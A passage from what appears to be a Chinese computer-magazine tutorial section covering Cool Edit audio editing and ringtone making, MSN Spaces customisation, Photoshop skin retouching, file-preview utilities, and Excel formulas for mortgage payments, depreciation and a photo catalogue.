    第二步:在“来源选择”项中可以选择“音轨”(设置为“时间”,则可将CD歌曲中的一部分或某个CD歌曲合并成一首), 按住Ctrl键不放, 并单击选中需要的音轨, 单击“确定”按钮开始捕获音轨即可。
    第三步:捕获完成后, 按住Shift键不放并依次点击首尾两个音轨, 即可全选所有提取出来的音频, 然后右击,在弹出菜单中选“关闭文件”命令, 这时会出现“当前文件尚未保存”对话框, 单击“全是”按钮, 又会弹出保存对话框, 输入音轨1的文件名, 选择保存类型(如:MP3), 再单击“保存”按钮即可。
    如果要捕获CD光盘上的某一首歌曲, 可以选择菜单“文件→打开”命令, 选择打开光盘上的相应歌曲, 然后再选择菜单“文件→另存为”命令, 选择需要的格式保存即可。

-   - ★快速转换音乐格式
    切换到波形编辑界面, 选择菜单“文件→批量转换…”命令, 接着单击“增加文件”按钮, 选择需要转换的文件; 单击“新格式”选项卡, 选择想要的输出格式类型, 这里选择的是WAV格式; 如果单击“选项格式”按钮, 还可以针对所选择的格式进行参数设置; 最后切换到“目标”选项卡, 选择保存文件夹, 单击“运行批处理”按钮即可。
    使用这种方法还可以捕获CD中的音频文件, 只需要选择CD光盘中相应的CDA文件即可; 提取出来的CD音频, 一般都是左右声道分离的, 又可以方便获取伴奏音乐了。

## 实例2: 男中音变“女高音”

有时翻唱一首歌曲, 却发现歌曲的音调较高, 任凭喊破嗓子也唱不上去, 此时就可以使用Cool Edit给歌曲降调。当然了, 如果有需要, 同样可以使用Cool Edit给歌曲升调。
第一步:启动Cool Edit, 选择菜单“文件→打开”命令打开伴奏音乐, 按F12键切换到波形编辑界面, 再按Ctrl + A组合键选中所有的音乐。



第二步:选择“效果→变速/变调→变速器”菜单命令, 调出变速对话框(见图), 选择“变调模式”下的“变调(保持速度)”项, “精度”为“高精度”, 再单击“变换”下拉列表, 选择“2b”, 这样当前音乐就会降两个半调, 如果选择“2#”则是升两个半调。如果升降幅度很大, 也可以拖动滑块进行调节, 不过这种方法不容易调整精确。

通过以上方法, 就可以轻松让自己的歌声变得可与高音之王帕瓦罗蒂相媲美的高度了。呵呵, 不过笔者亲自尝试了一下, 结果男中音变成了“女高音”, 着实吓了一跳。

## 实例3: 个性彩铃自己做

手机彩铃恰好满足了很多朋友的摆“酷”需要。彩铃的创作和翻唱有些类似, 下面就用Cool Edit剪辑修饰《两只蝴蝶》中的一个片断, 制作一个简单彩铃。
第一步:启动Cool Edit并打开“两只蝴蝶.mp3”, 切换到波形编辑界面, 双击右下角的“始”和“尾”下面的数字, 分别输入:3:00:000和4:00:000, 这样可以选中歌曲的第3分钟～4分钟部分, 而且正好是1分钟, 跟一个拨号周期的时间相等, 最后按下Ctrl + C键复制该部分的音乐。

第二步:选择菜单“文件→新建”命令创建一个新文件(无标题), 接着按Ctrl + V键粘贴复制部分的歌曲。选中歌曲的前10秒, 然后执行菜单命令“效果→波形振幅→渐变”, 在打开的对话框中, 拖动滑块, 将左右声道的初始值设置为-96dB, 然后单击“确定”; 选中音乐文件的最后10秒, 将初始值设置为0dB, 结束值设置为-96dB; 这样就制作出了铃声的淡入淡出效果。
第三步:选择菜单“文件→另存为”命令, 选择保存类型为MP3, 再单击“选项”按钮, 选择“20Kbps 11023hz Sterer(141.1:1)”, 再单击OK按钮将铃声保存。这样, 铃声大小就被控制在150KB左右, 因为如果文件太大, 很多手机不支持。最后使用数据线或红外线将铃声传送到手机上就可以了。

> > 小提示
> > 彩铃分为两类:主叫彩铃(他人拨打时听到的)和被叫彩铃(自己听到的), 上面的第三步, 笔者介绍的就是设置被叫铃声。如何设置主叫铃声, 大家可以到一些彩铃网站查阅相关资料。据调查发现, 彩铃的“钱”途十分诱人, 目前每首彩铃的收费在2元左右, 而每下载一次, 彩铃作者可以获得0.4元, 因此彩铃设计师已经成为现在较有潜力的职业之一, 像《手机小强》《送我玫瑰花》等彩铃给其作者带来了不菲的收入。大家在自娱自乐的同时, 也可以尝试一下, 说不定会有惊喜呢。

## 实例4: 让翻唱更完美

在《Cool Edit Pro 给网络歌手热身》一文介绍了翻唱的全过程。而通过自己动手录制翻唱时, 我们会发现有不少问题需要解决(如:换气声、音不准等), 下面就为大家介绍具体的解决方法。

### 1. 替换错误部分

用Cool Edit翻录歌曲的一大好处就是:我们不用为歌曲中的某个小细节出现错误而重新录制整首歌曲, 如:出现错字、错句等, 哪里出现错误就可以直接修改哪里, 不需要从头再来。

### 2. 调整歌曲音准

翻唱时经常会出现音不准现象, 我们除了可以使用上面的方法进行替换外, 还可以使用音准调节工具进行调节。
第一步:切换到波形编辑界面, 选中翻唱中的走音部分, 一般情况下我们是选中整句, 然后选择菜单“效果→变速/变调→变调器”调出变调器对话框。
第二步:在蓝线上单击可以增加节点, 右击节点, 输入时间和要改变的音调值(降低输入负数, 提高输入正数), 然后单击“预览”按钮试听效果, 这是一个细工活, 必须通过多次调节才能得到满意的效果。

### 3. 延长经典部分

很多歌曲中的某一句会拖得很长, 而像我们这些业余爱好者根本没那个能耐, 此时我们也可以请Cool Edit帮我们延长经典部分。
第一步:在波形编辑窗口下选中需要延长的部分, 再执行菜单“效果→变速/变调→变速器”命令调出变速对话框。
第二步:上面的滑块数值, 100比率表示声音长度不变, 如果向左拖动滑块, 数值会变小, 此时选中的部分就会延长。注意:下面的“变速模式”要选中“变速(保持音高)”项。一般情况下, 我们是在歌曲的结尾部分延长, 不然延长之后的节奏就不准了, 需要重新调节, 这样会比较麻烦。另外, 过分延长会让翻唱失真, 这个度大家一定要把握好。

### 4. 修整换气声

翻唱时由于气息控制不好或话筒的位置变化, 歌曲中会出现明显的换气声, 明显影响了翻唱的连续性, 此时我们就需要修整换气声。
第一步:进入波形编辑界面, 选中换气声部分, 然后执行菜单“效果→波形振幅→音量包络”命令调出“创建包络”对话框。
第二步:选择“预置”选项中的Curve-Pulse, 然后单击蓝色的平滑线增加节点, 再拖动节点进行精细调整。一般是让换气声由弱渐强进入, 最后单击“预览”按钮试听效果, 满意后单击“确定”返回即可。

## 附录: 实用插件阅兵式

Cool Edit 之所以功能如此强大, 应用如此广泛, 其中一个重要原因就是它可以使用第三方软件商提供的音效插件, 使用这些插件可以降低我们的音效处理成本, 提高工作效率和音效质量。
音效插件安装后, 可以选择菜单“效果→DirectX”下的子菜单打开相应的插件, 如:选择菜单“效果→DirectX→BBESonicMaximizer”打开高音激励器, 它可以使录制人声的高低音产生明显的分界, 使声音更加清晰明亮或雄浑厚重。限于篇幅, 这里就不再一一介绍各种插件的具体应用了, 大家可以从网上搜索下载相关资料。
(江苏 洪小鱼周建峰)## MSN Spaces 超级变变变

MSN Spaces 已经成了网民发布Blog的重要空间，如果你还没有自己的MSN Spaces，可以参考本刊今年第16期上的《MM的世界 让沟通无极限》一文，赶快加入博客大潮中吧。本文则是在此基础之上，通过微软悄悄推出的系列工具，只需要几步简单的设置，就可以让我们的MSN Spaces更加与众不同。

注: 由于将要介绍的几个工具尚在测试阶段，微软还没有正式公布，所以笔者不能确保以下内容完全正确，仅供参考。

### 实例1: 让朋友在你的MSN Spaces上看电影听音乐

当你访问别人的MSN Spaces时，是否发现有些人的MSN Spaces页面会自动播放一些好听的音乐，甚至还能播放一段电影视频。使用Windows Media Player Power Toy，你可以轻松为自己的MSN Spaces添加这一功能。

- 第一步: 首先登录你的MSN Spaces，这时你会发现IE地址栏中的网址类似于: http://spaces.msn.com/members/...owner=1&_c=。在这个网址的最后添加上文本“&powertoy=musicvideo”（不含引号），再按回车键（或单击右侧的“转到”按钮）重新登录一次。
- 第二步: 看起来页面似乎没有什么改变，不过这时你再单击“自定义→模块”，会发现下拉菜单中多出了“PowerToy:Windows Media Player添加”一项。单击此项，再单击右侧的“保存”按钮。
- 第三步: 当前页面会自动更新，这时页面左侧会显示在线Windows Media Player设置界面（见图1）。在URL中输入MP3音频文件的网址，音频文件必须是在网上的，形式如: http://www...com/music/yesterday.mp3（视频文件支持MPEG、AVI、WMV等格式，设置方法与音频文件相同）。勾选“Auto Start(自动启动)”项。“Position in sec”、“Times to play”、“Rate to play”三项分别用来设置播放的起始位置，重复的次数及播放速率的，可根据自己的喜好设置。最后单击“Save(保存)”按钮，又会出现一个警告对话框，单击“确定”即可。设置完毕，当其他朋友再访问你的MSN Spaces空间主页的时候，就会在左上角看到一个Media Player播放器界面，并自动播放你所设置的歌曲。当然，你也可以单击“自定义”上方的“预览您的共享空间”链接先自我欣赏一下。如果你不想让别人看到Media Player界面，可在图1所示界面上单击“Display Mode(显示模式)”右侧的下拉按钮，选择“Invisible(不可见)”模式，这样访问者将只闻其声不见其形了。

> 小提示: 使用本刊今年第13期《我的MSN Spaces就是比你酷》一文中介绍的工具，也可以为MSN Spaces页面添加音乐或视频。不过它所提供的方法需要手工输入代码（虽然很少），设置参数也较单一，不如上例来得方便快捷，且参数设置较为灵活。

### 实例2: 百变MSN Spaces

默认的MSN Spaces界面比较中庸，缺少个性，下面介绍几种能随意改变MSN Spaces界面风格的方法，顷刻间让你的MSN空间卓然不同。

### 1. 使用MSN Spaces自带模板

- 第一步: 首先登录到自己的MSN Spaces主页。
- 第二步: 单击右上角“自定义”标签展开自定义选项，单击“主题”，在弹出窗口中点选一款自己喜欢的主题模板，再单击右侧的“保存”按钮即可。
- 第三步: 单击“模块”，从下拉菜单中会看到许多项目，这些都是构成MSN Spaces的页面元素，后面带有“删除”字样的，表示当前页面已经有该元素了，如果点选将从当前页面去掉这些元素；带有“添加”或“创建”字样的，点选之后可将其添加到当前页面中。每次操作后，单击“保存”按钮可保存改变。
- 第四步: 单击“版式”，可为当前MSN Spaces页面选择新的布局，通过示意图就可以一目了然了。

### 2. 使用Tweak UI Power Toy

与Windows Media Player Power Toy一样，这是MSN Spaces正在测试的一个新的界面设置工具。

- 第一步: 登录自己的MSN Spaces，在网址后面加上文本“&powertoy=tweakomatic”（不含引号）后按回车键重新登录。
- 第二步: 单击“自定义→模块”，从下拉菜单中选择“Power Toy:Tweak UI添加”项，然后单击“保存”按钮。
- 第三步: 这时页面会自动更新，在页面左侧会出现“Tweak UI”界面（见图2）。通过它我们可以随意设置MSN Spaces页面的“Background Colors(背景色)”、“Background Image(背景图像)”、“Font Color(字体颜色)”、“Module Background(模块背景色)”、“Module Borders(模块边框)”等属性了。设置好了之后，单击“Save(保存)”按钮确定即可。



> 小提示: 如果你对HTML代码非常熟悉，还可以在MSN Spaces中加入自己的页面模块，在登录网址后面加上文本“&powertoy=sandbox”（不含引号），再在“自定义→模块”中选择“Power Toy:Custom HTML添加”项，保存后，在“Custom HTML”界面中添加自己的模块代码即可。本文实例中添加的各个模块，也可以很容易清除出MSN Spaces页面，在“自定义→模块”中点选相应模块删除即可。



(婷婷)

## 人人能做封面设计狮

在书店浏览、在报摊闲逛，看着五彩缤纷的各种杂志封面，你是否对杂志封面设计师油然而起敬意。今天，笔者就指给大家一条捷径，让你轻轻松松设计出自己的杂志封面。你还可以用自己的照片（或者MM的照片）做背景，过一把封面明星的瘾呢。

### 实例: 1分钟制作时尚杂志封面

如图所示，是笔者在1分钟内完成的个人Blog电子杂志的封面，看起来还挺时尚吧。下面就为大家一步一步介绍这个图片的制作过程。

- 第一步: 首先登录到 http://flagrantdisregard.com/flickr/magazine.php，这是一个flickr（这是一家非常有名的电子相册网站）爱好者设计的用来将flickr上的图片制作成杂志封面的小工具。
- 第二步: 根据网页上面的提示，输入背景图片的网址，这一项是必须填的(required)。该项的下面有Center(居中)、Top/Left(左上角)、Bottom/Right(右下角)三个单选项可选，你可以根据自己的喜好设置背景图片在封面中的位置。
- 第三步: 单击“Choose a layout(选择布局)”下拉按钮选择你喜欢的一种布局，在页面右侧会实时预览到效果，本例选择的是默认项“flickr”。单击后面的几个色块按钮会弹出一个色盘，还可以重新设置主色调、突出色及突出线的颜色。单击“Font(字体)”下拉按钮可以选择封面文字的字体。不过可选择的字体不多，并且没有中文字体，所以暂时还不能支持中文。
- 第四步: 接下来根据提示，分别输入杂志标题(Magazine title)、标志行文字(Tagline)、出版日期(Publication date)、定价(Price)等文本。再接下来是输入封面文字，大家可以看到有多行标有Line X字样的文本框，输入相应文字即可。在页面右侧的预览图中，已经标示了所有Line X所在的位置及字体大小，大家可以参考。另外，我们还可以通过每一文本框后面的Color(颜色)、Bold(粗体)及Shadow(阴影)三个按钮为文字设置不同的风格。当然，这些行不一定要全部填写，根据实际需要在相应位置输入文字即可。
- 第五步: 设置好之后，单击下面的“Create cover(创建封面)”按钮即可生成封面图片了，右击制作好的图片，选择“图片另存为”命令将它保存到本地硬盘即可，以后就可以在不同的场合使用这张图片了。

> 小提示: 虽然该网页上说明除了flickr上面的图片外，还可以使用其他网站上的图片，但是笔者试了好几次，发现只有flickr上面的图片才可以正常使用。大家登录 http://www.flickr.com/，可以根据提示免费获得flickr账户（因为该网站已经被Yahoo!收购，注册的账户实际上就是Yahoo! ID，所以使用它还可以享受Yahoo!网站的各种服务呢），然后将准备做成杂志封面的图片上传上去，并从浏览器的地址栏中复制下该图片的网址就可以了（该网站上的图片网址形式类似于: http://www.flickr.com/photos/john/1234567/）。注意: 注册flickr及上传图片的时间，不计入本例标题所说的“1分钟”之内。



访问 http://flickr.com/groups/magazinecover/，还可以看到其他人制作的封面作品，大家可以互相学习借鉴一下。

(行者)

## 超级“磨皮”大法，三分钟旧貌换新颜

翻开任何一本时尚杂志，或是观看好莱坞电影，那些光彩照人的女主人公的形象是否令你倾倒？其实，每个人的皮肤不可能真的和杂志或影视上显示的那样好，一般来说，她们上镜前是经过仔细化妆的。今天，请不要再为脸上的痘痘或雀斑而不好意思，也不用为悄然爬上眼角的皱纹而苦恼，下面给大家介绍的方法，三分钟内，将使你普通的数码照片变成明星照。



### 润滑皮肤

- 第一步: 启动Photoshop，打开需要修饰的人物照片。在图层面板上，拖动背景图层到底部的“创建新图层(Create a new layer)”按钮上，将自动复制一个新图层，将它命名为“基础图像”。以同样方法再复制一个图层，命名为“模糊”。
- 第二步: 要确保“模糊”图层在最顶层，点选该层，然后执行“滤镜→模糊→高斯模糊”菜单命令，在打开的高斯模糊对话框中，将模糊“半径”设置为10像素，单击“好”按钮确定。
- 第三步: 这时，整个图像都变得很模糊了。虽然脸上斑点都没有了，但图像也变得很不清晰。单击图层面板上“不透明度”右侧的按钮，拖动弹出的滑杆，将不透明度设置为50%左右，这时感觉会好多了。
- 第四步: 不过我们的目的是让脸上的皮肤变光滑，而头发、眼睛、眉毛、嘴及身上的衣服等处就不应该是模糊的，下面就来修正一下。选中橡皮擦工具(快捷键为E)，然后单击工具栏上“画笔”右侧的下拉按钮，将画笔大小设置为27。依旧在“模糊”图层内工作，用橡皮擦工具在头发、眼睛、嘴等不需要模糊的地方仔细进行擦除操作，橡皮擦所过之处，都会清晰起来。操作过程中，按“[”或“]”键可随时调整橡皮擦的大小，使得操作更加方便。

经过以上处理，照片人物的皮肤变得润滑多了。

### 除皱祛斑

本例照片中的人物，眼角有一些鱼尾纹，这个通过“污点恢复画笔工具”(Spot Healing Brush Tool)很容易就能去掉。

- 第一步: 在图层面板上点选先前复制的“基础图像”图层，然后在工具箱中选取污点恢复画笔工具(快捷键为J)，同样可以通过“[”和“]”键来调整恢复画笔的大小。
- 第二步: 通过缩放工具(快捷键为Z)将图像适当放大，这样会使操作更加细致。
- 第三步: 在皱纹(或污点)上，直接用污点恢复画笔工具涂抹即可，这个工具可以自动从周边提取相似色来抹去皱纹的，非常好用。对使用低版本Photoshop的朋友，则可以用“恢复画笔工具”(注意，这个工具名称中没有“污点”一词)与仿制图章工具来修复，它们的操作方法比较相似，都是要先按Alt键不放并用鼠标在要修复区域的周边点选一个相似色作为初始颜色，然后放开Alt键，用鼠标在鱼尾纹处细心地涂抹就可以了。

### 明眸皓齿

接下来要让照片中的人物，牙齿更洁白，眼睛更明亮。

依然是在“基础图像”图层进行操作。选取减淡工具(快捷键为O)，在工具栏上将“曝光度”设置为30%~50%，然后在牙齿及眼白处不停地点击、擦抹，即可让牙齿变白，让眼睛变亮。同样，按“[”和“]”键可以随时调整笔刷的大小。

### 漂白皮肤

许多人都希望自己的皮肤显得白一点，下面就教大家一个快速漂白皮肤的方法(当然，这里指的是漂白照片上人物的皮肤了)。

- 第一步: 点选“模糊”图层，将该图层的模式设置为“滤色”(Screen)。
- 第二步: 这时你会发现皮肤确实白了一些，如果你还不满意的话，可将不透明度设置得大一些，效果会更加明显。拖动不透明度滑杆，可实时预览到效果，直到满意为止。注意：调整的效果以自然为好，不要一味地求“白”而使照片失真。

怎么样，上面方法虽然很简单，但效果却惊人的好，不管是菜鸟还是老鸟，都能很容易地将普通的人物照变成明星照。用这套方法为MM修照片，说不定也能博她开心一笑。(原作:Jon Pink 源图片:Peter Hansen)

## 用好“潜望镜”，文档内容早知道

Sunny最近抱怨自己的数据太海量，使用Windows的搜索功能或Google桌面搜索虽然也能快速找到想要的文件，但还是有些麻烦，于是CFan小编纷纷献策，为Sunny提供了一些不错的方法和工具，它们的共同特点就是：不打开文件就能了解文件内容！

### 狂PK:Windows的预览功能你用好了吗？

#### 1.看图，它足够了

- 第一步: 在资源管理器中右击保存有照片的文件夹，在弹出菜单中选择“属性”，接着进入“自定义”选项卡，在“用此文件夹类型作为模板”下拉菜单中选择“图片(适合文件较多的文件)”或“相册(适合文件较少的文件)”。
- 第二步: 确定后双击打开该文件夹，你会发现文件夹中的照片会以缩略图形式出现。而单击左侧任务窗格中的“作为幻灯片查看”，照片便以幻灯片形式播放。
- 第三步: 如果想浏览方式更自由，则可点击“查看→幻灯片”，这时主窗口改为上下两部分，最下面是图片缩略图列表，选中其中一幅，上面就会显示大图。

#### 2.把缩略图功能变得更好些

对于保存有大量图像文件的文件夹，建议选择“查看→缩略图”查看模式，同时配合下面的技巧还能改变缩略图大小及品质，从而达到显示更多缩略图，并减少内存和磁盘占用。打开“注册表编辑器”，找到[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer]，在右侧窗口增加一个名为ThumbnailSize的DWORD值，它的值可以设置为32到256(修改值时要在基数项下选择十进制)，建议选择50(默认为100)，这样能减小缩略图大小。如果要改变缩略图品质，继续添加名为ThumbnailQuality的DWORD值，其值可为50到100，建议设置为50(在修改值时要在基数项下选择十进制)。退出“注册表编辑器”，这个修改即可生效。

### 小特:右击就能看图、听歌、看电影

首先比较推崇的是ACD System公司推出的另一款软件——ACD mPower Tools(下载地址:http://www.onlinedown.net/soft/22887.htm), 安装后通过右击文件就能即时预览图像，并且支持WMV、WAV、ASF、MP3、MPEG、AVI等多种音、视频文件格式的预览。

另外，我们杂志还曾介绍过免费、小巧的MiTeC Image Preview Shell Extension(下载地址: http://www.newhua.com/cfan/200503/imagview.rar)，它同样也能实现右键看图。

而Instant ThumbView(下载地址:http://www.contextmagic.com/downloads.htm)也很有趣、实用，安装后，在资源管理器中，将光标指向某一图像文件，立即就会显示出一个比较大的缩略图出来(见图1)。

启动Configuration Manager，还可以对Instant ThumbView进行多种配置，如预览的图像类型、缩略图大小等。


### Cornel:BT下载也玩“先尝后买”

用BT下电影最烦人的就是花了数小时，下回来的却是枪版，而BitComet(0.59以后版本)提供了提前预览影片内容的功能。右击正在下载的任务，在右键菜单中选择“预览视频文件”项，根据提示操作，即可预览正在下载的影片了。不过因为是在线预览，对带宽有一定要求，如果下载速度达到200KB以上，稍等一会就可以观赏了，如果在50KB以下，则需要花更多的等待时间。

### 柳絮飞:Office文档、文本文件内容即点即现

#### 1.InfoTip Extension让文本文件一点即现

从http://yncnc.onlinedown.net/soft/9785.htm处下载并安装这个小软件后，只要将光标悬停在文本文件(TXT、INI、REG)上，就会弹出黄色窗口并显示其中内容(见图2)。

CFan小编电脑里面都装着它。同时，对于其他文件，它会显示出文件相关信息，包括文件版本、文件大小、压缩后大小、文件类型等，让你对该文件有一个全面的了解。


### 小提示

一般情况下，使用软件默认设置即可，如果想设置InfoTip Extension，可以右击桌面，选择“属性”，在属性窗口中单击“设置”标签，单击“高级”按钮，再选择“InfoTip Extension”标签即可，可以对文件显示信息的很多选项进行自行控制，而且是全中文的。

#### 2.“未卜先知”Office文档

许多软件都提供打开前的“预览”功能，比如ACDSee等。其实，作为广泛使用的微软Office办公软件，同样提供了打开文档前的“预览”功能，下面以Word为例加以介绍。

启动Word 2003，单击工具栏中的“打开”按钮，在“打开”对话框的工具栏中，单击“视图”按钮旁的三角，然后单击下拉菜单中的“预览”。这时，对话框立即被分为左右两部分，右边的框中会显示当前选中文档的内容。

(北京 一页 济南 王杰)

## 生活乱如麻 精打细算好当家

故事：这天，沙僧因为公积金贷款买房的事情，找到八戒帮忙，让他给算一下不同条件下的月供情况，好挑选一个适合自己实际条件的。八戒笑道：“《电脑爱好者》今年第1期的‘菜鸟集训营’中，李逵已经介绍过用Excel算月供的方法了啊。”沙僧说道：“他介绍得过于简单，而且用起来也不太方便，二哥你就再帮帮忙啦”。八戒无奈，只好又打开了Excel忙活起来。（本文源文件下载地址：http://www.newhua.com/cfan/200521/财务函数.rar）

### 实战1：购房贷款 月供一表清

第一步：启动Excel 2003（其他版本可仿照操作），如图1所示，将固定字符输入其中，然后执行“文件→保存”命令将文件保存为“住房贷款.xls”。



第二步：点选A3单元格，执行“数据→有效性”命令，打开“数据有效性”对话框（见图2）；单击“允许”右侧的下拉按钮，选中“序列”选项，然后在“来源”下面的方框中输入文本“商业贷款,公积金贷款”（不含引号，中间的逗号为英文状态下输入的半角字符），按“确定”返回。这时会发现A3单元格右下角多出了一个小按钮，点击它会弹出下拉选项菜单，用于选择“贷款类型”（本例设置了两个下拉选项，即“商业贷款”和“公积金贷款”，你也可以设置更多选项，只是要注意用英文逗号将各项文字分隔开来）。



以同样的方法，分别在B3、C3单元格中建立起“贷款金额”和“贷款年限”（分别为“1,2,3,4,5,...20”，共20个选项）下拉选项列表。
第三步：选中D3单元格，输入以下公式后按回车键进行确认：
=IF(AND(A3="公积金贷款",C3<5),3.78,IF(AND(A3="公积金贷款",C3>=5),4.23,IF(AND(A3="商业贷款",C3<5),4.95,5.31)))
上述公式的含义是：如果（IF）A3单元格中的字符选择为“公积金贷款”并且（AND）C3单元格中的数值小于5，则显示3.78（此数值为贷款利率，仅供参考，实际利率可向具体银行进行查询，下同）；如果A3单元格中的字符为“公积金贷款”并且C3单元格中的数值大于等于5，则显示4.23；如果A3单元格中的字符为“商业贷款”并且C3单元格中的数值小于5，则显示4.95；其他情况显示为5.31。
第四步：为了显示自己工作的规范性，八戒又向沙僧演示了如何利用“函数向导”来输入单一函数公式：
1. 选中E3单元格，执行“插入→函数”命令，打开“插入函数”对话框，选中“财务”类别下面的“PMT”函数。
2. 按下“确定”按钮，打开“函数参数”对话框并输入相应的参数，本例中输入的参数如图3，单击“确定”返回，E3单元格中将自动填入公式：=PMT(D3/1200,C3*12,B3*10000)，用来计算出月还款金额。在PMT函数中，必须将利率换算成“月利率”（D3/1200），将“贷款年限”换算成“月份”（C3*12）。



```
PMT小档案
语法：PMT(rate,nper,pv,fv,type)
说明：这个财务函数是基于固定利率及等额分期付款方式，返回贷款的每期付款额。
rate，贷款利率，比如按10%的年利率借入一笔贷款来购买汽车，并按月偿还贷款，则月利率为10%/12（即0.83%），上例中的利率参数为"D3/1200"，实际上就是"D3%/12"，分子分母同乘100就成了"D3/1200"；nper，该项贷款的付款总数，比如，对于一笔4年期按月偿还的汽车贷款，共有4*12（即48）个偿款期数；pv，即现值，也称为本金；fv，未来值，或在最后一次支付后希望得到的现金余额，如果省略，则默认值为0；type，数字0或1，用以指定各期的付款时间是在期初还是期末，如果省略，则默认其值为0。本例中的PMT函数，后两项（即fv和type）都省略了，也就是取默认值0。
```

小提示
★ 如果E3单元格内显示出错代码“#DIV/0!”，不用着急，这是因为前面贷款金额、贷款年限等项还没有设置的原因，点选这几项，从下拉列表中选择适当的选项填充即可。
★ 如果一时不知道使用什么函数，可以在打开的“插入函数”对话框的“搜索函数”下面的方框中输入相应的关键词（如“贷款”），然后按下“转到”按钮，系统会向我们推荐相应的函数供我们选择使用（见图4）。



第五步：选中F3单元格，输入公式：=C3*12*E3，用于计算累计还款金额。
至此，一个小巧好用的“住房贷款还款速查表”就制作完成了。沙僧赶紧试了一下，看看办理“公积金贷款”15万元，贷款期限为10年的月供有多少：
选中A3单元格，此时，该单元格右下角出现了下拉按钮，单击此按钮，在随后出现的下拉列表中，选中“公积金贷款”选项；以同样的方法进行操作，分别将B3、C3单元格设置为“15”（万元）、“10”（年），此时，在E3单元格中显示出月还款金额为1535.13元，在F3单元格中显示出累计还款金额约为184215.3元。如果国家调整贷款利率，大家只要修改一下D3单元格中公式的相应利率就可以了。看起来，这个速查表确实比李逵设计的那个查询表要高级许多。

### 实战2：轻松求解固定资产折旧费

环球旅游公司在2005年9月购进了一套设备，投资额为100万元，使用年限10年，10年后预计该设备的残值为10万元，那么该如何计算各期的折旧金额呢？这可难不倒八戒，他使用“余额递减法”很快就搞定了。
第一步：启动Excel，如图5所示制作一份数据表格。



第二步：选中B4单元格，输入公式：=DB($A$2,$B$2,$C$2,C4,3)，并按下回车键进行确认，第一期（也就是2005年后3个月）的折旧金额——51500元立即被计算出来。

```
DB小档案
语法：DB(cost,salvage,life,period,month)
说明：本函数使用固定余额递减法，计算一笔资产在给定期间内的折旧值。
cost，资产原值；salvage，资产在折旧期末的价值（也称为资产残值）；life，折旧期限（有时也称作资产的使用寿命）；period，需要计算折旧值的期间，它必须使用与life相同的单位；month，第一年的月份数，如果省略，则假设为12。
```

小提示
★ 如果用“双倍余额递减法”计算各期折旧额时，请在B4单元格中输入公式：=DDB($A$2,$B$2,$C$2,C4)（此处计算出来的是第一个使用年度，即2005年10月至2006年9月的折旧额）；如果用“年限总和折旧法”计算各期折旧额时，请在B4单元格中输入公式：=SYD($A$2,$B$2,$C$2,C4)（同样，此处计算出来的也是第一个使用年度，即2005年10月至2006年9月的折旧额）。
第三步：再次选中B4单元格，拖动填充柄将上述公式拖拉复制到B5至B14单元格中，计算出以后各期的折旧额（见图6）。朋友们可能已注意到，在B4单元格中输入公式时，其中的A2、B2、C2单元格地址前面添加了一个符号“$”（$A$2、$B$2、$C$2），这是单元格地址“绝对引用”的标志，而“C4”单元格没有进行这样处理，这就是“相对引用”。进一步观察一下B5至B14单元格区域中的相应公式，我们就会发现，“绝对引用”的地址，在用填充柄拖拉复制时，其地址不变，而相对引用的地址，则相应地发生了变化（依次转换为C5、C6……C14）。如果想把输入的公式中某个相对引用的单元格地址转换为绝对引用的地址（或相反），只要在编辑栏的公式中选中相应的单元格地址，然后按一下F4键就可以了。



小提示
★ 如果使用“双倍余额递减法”和“年限总和折旧法”计算各期折旧额时，上述公式只能复制到B13单元格为止，否则B14单元格会返回错误值。因为，用这两种方法计算时，只有10个使用年度。

（安徽 陈秀峰）

## 赤手空拳为数码照片打造“全能管家”

随着数码相机的普及，电脑中的数码照片也越存越多，如果不善加管理，时间长了，想要找到某张急需的照片一定不是件轻松的事。其实可以将Excel打造成一个数码照片“全能管家”，就能让电脑中的照片变得有条不紊(本文源文件下载地址:http://www.newhua.com/cfan/200521/ePhotos.rar)。

### 美化界面 赏心悦目

你大概想不到吧？恰恰是长了一张方方正正呆板面孔的Excel，给了我们一个赏心悦目的漂亮界面呢，如图所示，就是我的“照片管家”的界面。



第一步:启动Excel 2003，它会自动新建一个工作簿，双击当前工作表标签名称“Sheet1”；将其改名为“照片管家”。执行“工具→选项”菜单命令，在打开的选项窗口中选择“视图”标签，单击去掉“网格线”前复选框中的“√”号，点击“确定”返回，此时工作表中的网格线就都隐藏了。

第二步:按Ctrl + A组合键，或单击工作表左上角的“全选框”(即列号A与行号1相交处的空白灰框)，将工作表全部选中，再在工作表中单击鼠标右键，从右键菜单中选择“设置单元格格式”命令，在打开的“单元格格式”对话框的“图案”标签下，设置单元格的底纹颜色为深绿色。我的“照片管家”工作表中要搜集有拍摄时间、拍摄地点、照片类别、使用设备、照片数量、照片链接及精彩照片(本例共有10张)七类信息(你可以根据自己的需要添加或减少)，共计16列，选中B2到U29单元格区域(行数可在实际使用中随时插入)，借鉴上面的方法将这些单元格的底纹颜色设置为白色，并为所选的单元格设置绿色的表格线。

第三步:在图所示“照片管家”工作表中的表格、边框及折线，是通过选择相应的单元格区域并为这些单元格设置边框来完成的。在设置边框时，可以选择不同的边框“线条样式”、不同的“线条颜色”。拖动行号或列号分隔线，可调整相对应的行高、列宽。最后，再选择喜欢的字体、颜色，设置合适的字号，输入文字，漂亮的界面就OK了。

快速链接
如何美化Excel表格还可以参考本刊今年第13期《八戒娶亲是赔是赚，Excel里一目了然》一文的前半部分。

### 输入信息 链接精彩

“照片管家”的界面设计好了，接下来就是信息的整理和输入了。

第一步:每次拍摄回来，可花几分钟时间，将照片按“风景”、“民俗”、“人物”等类别进行分类。如果是用不同相机拍摄的，还可以按相机进行分类并分别将它们保存在不同的文件夹中。然后，将相关信息输入到“照片管家”工作表中。

第二步:我们可以在“照片管家”工作表添加一些“超链接”，这样只要简单点击一下就能打开相应照片文件夹，具体方法是:点选准备添加链接的单元格(本例为“照片链接”列中的单元格，单元格中已预先输入了提示文字:“相片”，你可以改成其他的提示文字)，然后点击工具栏上的“插入超链接”按钮(快捷键为Ctrl + K，或执行“插入→超链接”菜单命令)，在“插入超链接”窗口中，定位到相对应的文件夹，点击“确定”按钮即可。这样一来，我们只要在“照片管家”工作表中，点击该单元格就可以直接打开相对应的文件夹了。

第三步:以同样方法也可以为该文件夹中的10张精彩照片添加“超链接”，不过在“插入超链接”窗口中要选择具体的照片文件，添加链接后，只要点击单元格，系统就会用默认的浏览程序打开链接的照片，以方便浏览。

